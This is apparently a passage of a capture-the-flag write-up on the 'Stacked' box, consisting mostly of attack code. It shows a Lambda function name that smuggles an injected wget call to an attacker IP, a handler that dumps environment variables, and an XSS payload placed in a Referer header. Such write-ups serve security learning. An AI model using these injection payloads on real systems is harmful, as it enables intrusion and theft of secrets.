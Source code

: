 ```javascript
// index.js
exports.handler = async function(event, context) {
  console.log("ENVIRONMENT VARIABLES\n" + JSON.stringify(process.env, null, 2))
  console.log("EVENT\n" + JSON.stringify(event, null, 2))
  return context.logStreamName
}
```

```bash
$ zip function.zip index.js
  adding: index.js (deflated 30%)
```

```bash
$ aws --endpoint-url=http://s3-testing.stacked.htb lambda create-function --function-name 'tgihf;wget 10.10.14.61' --zip-file fileb://function.zip --handler index.handler --runtime nodejs12.x --role lambda-ex
{
    "FunctionName": "tgihf;wget 10.10.14.61/blah",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tgihf;wget 10.10.14.61/blah",
    "Runtime": "nodejs12.x",
    "Role": "lambda-ex",
    "Handler": "index.handler",
    "CodeSize": 317,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-20T06:23:29.563+0000",
    "CodeSha256": "8nUEIrrafkyKgs2i/sh63Fevj2kYkbIyFPFI5M0o6Dk=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "66682858-7882-4004-bce2-0d7fa504eae2",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script>document.location = "http://127.0.0.1:8080"</script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```
